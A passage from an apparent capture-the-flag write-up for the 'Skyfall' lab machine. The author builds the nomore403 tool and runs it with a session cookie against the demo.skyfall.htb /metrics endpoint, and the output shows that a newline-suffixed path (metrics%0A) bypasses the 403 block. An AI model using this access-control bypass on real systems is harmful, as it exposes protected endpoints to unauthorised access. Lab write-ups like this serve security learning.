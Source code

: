 ![metrics 403](/assets/images/Skyfall/metrics-403.png)

A nice tool to try to bypass 403 using a lot of techniques is [nomore403](https://github.com/devploit/nomore403), so I will clone it and execute it against the metrics URL:

```bash
❯ git clone https://github.com/devploit/nomore403
Cloning into 'nomore403'...
remote: Enumerating objects: 478, done.
remote: Counting objects: 100% (167/167), done.
remote: Compressing objects: 100% (95/95), done.
remote: Total 478 (delta 74), reused 124 (delta 67), pack-reused 311 (from 1)
Receiving objects: 100% (478/478), 172.53 KiB | 1.14 MiB/s, done.
Resolving deltas: 100% (250/250), done.
❯ cd nomore403
❯ ls
cmd  payloads  go.mod  go.sum  LICENSE  main.go  README.md
❯ go build .
❯ ls
LICENSE  README.md  cmd  go.mod  go.sum  main.go  nomore403  payloads
❯ chmod +x nomore403
```

```bash
❯ ./nomore403 -H "Cookie: session=.eJwljklqBEEMBP9SZx9qVUvzmUZLChuDDd0zJ-O_u8DHyCAhfsqZF-738nheL7yV8yPKo3RuIwcEA-azNzFWA3E1gFcGbeMsVCPEgeiVlT0Rrap1tiTm2YTmWuI0Vk5bM4iO4K4cHZD9bOPwrjIoaq-eqpXhYQ1ZdsjrxvVf0zb6feX5_P7E1x5SJTUN6UZtEC_j6tA44pBVD5mVFD1G-f0D3jZBtg.ZsJoXQ.3_gAJxuz_FOEOl4xmMJ5j4qf4tA" -u http://demo.skyfall.htb/metrics | grep -v 403
Target: 		http://demo.skyfall.htb/metrics
Headers: 		{Cookie  session=.eJwljklqBEEMBP9SZx9qVUvzmUZLChuDDd0zJ-O_u8DHyCAhfsqZF-738nheL7yV8yPKo3RuIwcEA-azNzFWA3E1gFcGbeMsVCPEgeiVlT0Rrap1tiTm2YTmWuI0Vk5bM4iO4K4cHZD9bOPwrjIoaq-eqpXhYQ1ZdsjrxvVf0zb6feX5_P7E1x5SJTUN6UZtEC_j6tA44pBVD5mVFD1G-f0D3jZBtg.ZsJoXQ.3_gAJxuz_FOEOl4xmMJ5j4qf4tA}
Proxy: 			false
Method: 		GET
Payloads folder: 	payloads
Custom bypass IP: 	false
Follow Redirects: 	false
Rate Limit detection: 	false
Status: 		
Timeout (ms): 		6000
Delay (ms): 		0
Techniques: 		verbs, verbs-case, headers, endpaths, midpaths, http-versions, path-case
Unique: 		false
Verbose: 		false

━━━━━━━━━━━━━━━ VERB TAMPERING ━━━━━━━━━━━━━━━
405 	          327 bytes TRACE

━━━━━━━ VERB TAMPERING CASE SWITCHING ━━━━━━━━

━━━━━━━━━━━━━━━━━━ HEADERS ━━━━━━━━━━━━━━━━━━━

━━━━━━━━━━━━━━━ CUSTOM PATHS ━━━━━━━━━━━━━━━━━
500 	          854 bytes http://demo.skyfall.htb/metrics.html
200 	        45335 bytes http://demo.skyfall.htb/metrics%0A
302 	          428 bytes http://demo.skyfall.htb/#?metrics
```